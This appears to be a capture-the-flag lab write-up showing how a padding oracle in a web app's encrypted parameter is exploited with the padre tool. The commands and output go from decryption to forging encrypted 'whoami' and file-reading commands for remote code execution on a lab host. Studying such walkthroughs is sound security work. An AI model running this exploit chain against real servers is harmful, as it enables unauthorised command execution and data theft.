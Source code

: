 ```mermaid
graph LR
A[Attacker sends<br>modified ciphertext] --> B{Server}
B -->|Valid padding| C[200 OK]
B -->|Invalid padding| D[500 Error<br>with padding message]
D --> A
```


Now that we know the attack path, we need a tool to perform the attack, we can use this:

PADRE: https://github.com/glebarez/padre

In order to use the tool, we need cookies, let's submit the request to our proxy:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250611144442.png)

Get both cookies and use padre:

```bash
padre -cookie 'PHPSESSID=bvm7a460lof8s58df1cr0kq9cm; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.28.196:1337/dashboard.php?date=$' '2a1LzN11hzRQ2RKLfxISXUhCo4tNS7BGEhT4a7E7ITg='

[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: decrypt
[1/1] date +%Y\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08
```

Now, we can encrypt `whoami` to check if we can achieve `rce`:

```bash
padre -cookie 'PHPSESSID=bvm7a460lof8s58df1cr0kq9cm; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.28.196:1337/dashboard.php?date=$' -enc 'whoami'

[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] /72bsovoJoFlZXNlZW5ibA== 
```

Now, let's try it and check the response:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250611145137.png)

Nice, as seen we achieved RCE, let's get our final flag then:

```bash
padre -cookie 'PHPSESSID=bvm7a460lof8s58df1cr0kq9cm; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.28.196:1337/dashboard.php?date=$' -enc "cat /home/ubuntu/flag.txt"

[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] xIK95Ugkdek4rajb78dj6a8/m4PxZjfJxIPPCN2mrV5iZXNnZ2JmbA==
```
